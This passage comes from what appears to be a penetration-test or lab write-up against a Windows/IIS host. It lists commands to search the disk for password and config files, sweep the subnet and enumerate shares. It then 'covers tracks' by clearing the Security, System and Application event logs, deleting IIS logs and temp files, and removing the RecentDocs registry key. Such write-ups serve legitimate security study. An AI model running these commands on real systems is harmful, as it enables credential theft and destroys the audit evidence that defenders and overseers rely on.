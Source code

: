 #### 4.2 File System Analysis
```bash
# Search for sensitive files
dir /s /b C:\ | findstr /i "password\|pass\|pwd\|config\|backup"
dir /s /b C:\ | findstr /i "\.txt$\|\.doc$\|\.xls$\|\.pdf$"

# Database files
dir /s /b C:\ | findstr /i "\.mdb$\|\.sql$\|\.db$"
```

#### 4.3 Network Discovery
```bash
# Network mapping
for /L %i in (1,1,254) do @ping -n 1 -w 200 10.129.95.%i | find "TTL"

# Share enumeration
net view /domain
net view \\[target_ip]
```

### Phase 5: Covering Tracks
**Objective**: Remove evidence of compromise

#### 5.1 Log Cleanup
```bash
# Clear Windows event logs
wevtutil cl Application
wevtutil cl Security
wevtutil cl System

# IIS log cleanup
del C:\WINDOWS\system32\LogFiles\W3SVC*\*.log
```

#### 5.2 File Cleanup
```bash
# Remove uploaded files
del C:\windows\temp\*
del %temp%\*

# Clear recent file lists
reg delete "HKEY_CURRENT_USER\Software\Microsoft\Windows\CurrentVersion\Explorer\RecentDocs" /f
```

## Risk Assessment & Mitigation

### Immediate Risks
1. **Complete System Compromise**: CVSS 10.0 vulnerability allows full control
2. **Data Breach**: Access to all files and databases
3. **Lateral Movement**: Potential compromise of entire network
4. **Service Disruption**: Ability to crash or modify services
